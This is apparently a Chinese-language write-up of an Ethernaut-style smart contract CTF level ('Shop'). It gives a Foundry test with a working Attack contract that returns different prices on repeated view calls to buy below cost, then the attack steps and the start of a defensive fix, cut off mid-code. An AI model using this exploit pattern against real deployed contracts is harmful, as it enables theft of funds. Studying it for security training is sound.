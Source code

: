 ### Foundry 测试代码

```solidity
// SPDX-License-Identifier: Unlicense
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "src/21_Shop.sol";

// Attack contract (as defined above)
contract Attack {
    IShop shop;
    constructor(address _shop) { shop = IShop(_shop); }
    function price() public view returns (uint256) { return shop.isSold() ? 1 : 101; }
    function attack() public { shop.buy(); }
}

contract ShopTest is Test {
    Shop instance;
    Attack attacker;
    address player;

    function setUp() public {
        player = vm.addr(1);
        instance = new Shop();
        attacker = new Attack(address(instance));
    }

    function testAttack() public {
        vm.startPrank(player);
        attacker.attack();
        vm.stopPrank();

        // 验证攻击是否成功
        assertEq(instance.price(), 1, "Price should be updated to 1");
        assertTrue(instance.isSold(), "isSold should be true");
    }
}
```

### 关键攻击步骤

1.  **部署攻击合约**: 创建 `Attack` 合约，它实现了 `Buyer` 接口。
2.  **调用 `attack()`**: `Attack` 合约的 `attack()` 函数调用 `Shop` 合约的 `buy()` 函数。
3.  **双重返回值**: `Shop` 合约在同一次 `buy()` 调用中两次调用 `Attack` 合约的 `price()` 函数，但由于 `Shop` 的内部状态 `isSold` 发生了变化，`Attack` 的 `price()` 函数返回了两个不同的值，从而绕过了逻辑检查并以低价成交。

## 🛡️ 防御措施

1.  **不要在一次交易中多次调用外部 `view` 函数**: 如果必须这样做，请将第一次调用的返回值存储在一个局部变量中，并在后续逻辑中使用这个局部变量，而不是再次进行外部调用。

    ```solidity
    // 修复建议
    function buy() public {
        Buyer _buyer = Buyer(msg.sender);
        uint _price = _buyer.price(); // 只调用一次，并将结果存入局部变量
